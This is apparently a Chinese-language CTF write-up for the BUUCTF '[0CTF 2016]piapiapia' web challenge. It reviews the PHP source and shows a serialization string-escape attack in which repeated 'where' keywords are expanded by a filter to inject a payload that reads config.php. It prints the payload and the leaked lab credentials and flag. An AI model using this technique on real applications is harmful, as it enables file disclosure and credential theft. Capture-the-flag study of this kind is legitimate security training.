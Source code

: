 ```yaml
---
title: buuoj刷题记录1
date: 2019-12-23 19:44:18
tags: 
 - ctf
 - buuctf
 - web
 - 0CTF
---
```


## [0CTF 2016]piapiapia

### 0x00 基础

一般文件的目录又xxx.php.bak/swp，或者查看元素、robots.txt里面有提示，或者`www.zip`等一系列文件中出现网站源码。也可以使用工具扫描

PHP序列化[参考文章](https://www.php.cn/php-notebook-239422.html)

<!--more-->

### 0x01 分析

题中`www.zip`中包含源码，下载~~后进行代码审计（不会）~~翻阅PHP手册，各种百度。在config.php中包含flag，要想办法获取到此文件
config.php

```
<?php
    $config['hostname'] = '127.0.0.1';
    $config['username'] = 'root';
    $config['password'] = '';
    $config['database'] = '';
    $flag = '';
?>
```
查看index.php

```php
if($user->login($username, $password)) {
			$_SESSION['username'] = $username;
			header('Location: profile.php');//登入后跳转到profile.php
			exit;	
		}
```

查看profile.php

```PHP
<?php   
    require_once('class.php');
if($_SESSION['username'] == null) { 
    die('Login First');
}   
$username = $_SESSION['username'];
$profile=$user->show_profile($username);
if($profile  == null) { 
    header('Location: update.php'); //$profile为空，跳转到update.php
}
else { 
    $profile = unserialize($profile); //一般看见unserialize()会考虑反序列化漏洞，
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));//file_get_contents()此函数可以获得文件内容
}
?>
```

update.php

```php
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

    $username = $_SESSION['username'];
    if(!preg_match('/^\d{11}$/', $_POST['phone']))
        die('Invalid phone');

    if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
        die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');

    $file = $_FILES['photo'];
    if($file['size'] < 5 or $file['size'] > 1000000)
        die('Photo size error');

    move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
    $profile['phone'] = $_POST['phone'];
    $profile['email'] = $_POST['email'];
    $profile['nickname'] = $_POST['nickname'];
    $profile['photo'] = 'upload/' . md5($file['name']);

    $user->update_profile($username, serialize($profile));//将$profile序列化，执行过滤函数
    echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
}
```
查看update_profile()函数
```PHP
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile); 
    $where = "username = '$username'"; 
    return parent::update($this->table, 'profile', $new_profile, $where);
}
```
查看filter()函数
```php
public function filter($string) {
    $escape = array('\'', '\\\\'); 
    $escape = '/' . implode('|', $escape) . '/'; 
    $string = preg_replace($escape, '_', $string); //将  “ ‘ ”、 “\\\\” 替换成 “_” 
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string); //将“ select|insert|update|delete|where” 替换成 "hacker"，返回替换后的字符串
}
```

在update_profile()，返回到profile.php.

```php
$profile = unserialize($profile); //反序列化$profile
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));

```

序列化后

```
$profile=a:4:{s:5:"phone";s:11:"11111111111";s:5:"email";s:8:"12@12.12";s:8:"nickname";s:4:"1234";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}
```
要让$photo得到的文件是config.php也就是

```
s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";
```
变成 
```
s:5:"photo";s:10:"config.php";
```
序列化后的长度是固定的，但是在经过过滤函数时候，nickname传入where会被替换成hacker,多出一个字符，这样就可以修改反序列化后的photo所对应的文件，使其为config.php。

因为nickname有长度限制使用数组可以绕过

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```
让nickname的值为`"};s:5:"photo";s:10:"config.php";}`长度为34,传入34个where
### 0x03 开始操作

![1](/pic/1.png) 传入参数

访问profile.php

![2](/pic/2.png)

将base64解码


```php
<?php
$config['hostname'] = '127.0.0.1';
$config['username'] = 'root';
$config['password'] = 'qwertyuiop';
$config['database'] = 'challenges';
$flag = 'flag{94b7c4b2-866d-4189-9b0a-abdf22990071}';
?>
```


